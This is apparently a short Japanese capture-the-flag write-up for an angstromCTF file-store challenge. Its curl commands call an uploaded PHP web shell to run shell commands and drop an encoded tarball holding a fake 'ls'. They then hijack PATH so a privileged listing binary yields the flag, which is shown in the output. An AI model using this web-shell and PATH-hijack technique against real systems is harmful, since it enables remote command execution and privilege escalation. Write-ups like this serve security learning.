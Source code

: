 ```bash
$ curl 'https://filestore.web.actf.co?f=644581a9740ce_5e0b2ce2b5586766a112f37e4ae49da5e9d7be72afaf1a29858ecc70ecc2f5be_satoki.php&satoki=%2Fmake_abyss_entry'
satokic921550691f3f89c6f2edccde0adf70bda3f66ce52bd57f2c92bce6e63df1c2f
c921550691f3f89c6f2edccde0adf70bda3f66ce52bd57f2c92bce6e63df1c2f<code>
~~~
$ curl 'https://filestore.web.actf.co?f=644581a9740ce_5e0b2ce2b5586766a112f37e4ae49da5e9d7be72afaf1a29858ecc70ecc2f5be_satoki.php&satoki=cd%20%2Fabyss%2Fc921550691f3f89c6f2edccde0adf70bda3f66ce52bd57f2c92bce6e63df1c2f%3B%20echo%20-n%20%27H4sIAAAAAAAAA%2B3RTQoCMQyG4aw9RU%2FgJGNrz1MERRwQbASP74g%2FiAsHF0XE99lkkUI%2F8tXi%2B922k5Z0lHO%2BTMtJn%2BedWIy99TFlXYiaaYoSUtNUN8fq5RCC1PEQ795N7X9UvfY%2F1IZ%2FTPZvy9f%2BoyUJ2jDTw5%2F3vyoeuvVQNnM%2F%2BezbaQAAAAAAAAAAAAAAAAB84gwp3cY1ACgAAA%3D%3D%27%20%7C%20base64%20-d%20%3E%20a.tar.gz%3B%20tar%20xvzfp%20a.tar.gz%3B%20export%20PATH%3D%2Fabyss%2Fc921550691f3f89c6f2edccde0adf70bda3f66ce52bd57f2c92bce6e63df1c2f%2Fsatoki%3A%2Fbin%3B%20%2Flist_uploads'
satokisatoki/
satoki/ls
actf{w4tch_y0ur_p4th_724248b559281824}actf{w4tch_y0ur_p4th_724248b559281824}<code>
~~~
```
flagが得られた。  

## actf{w4tch_y0ur_p4th_724248b559281824}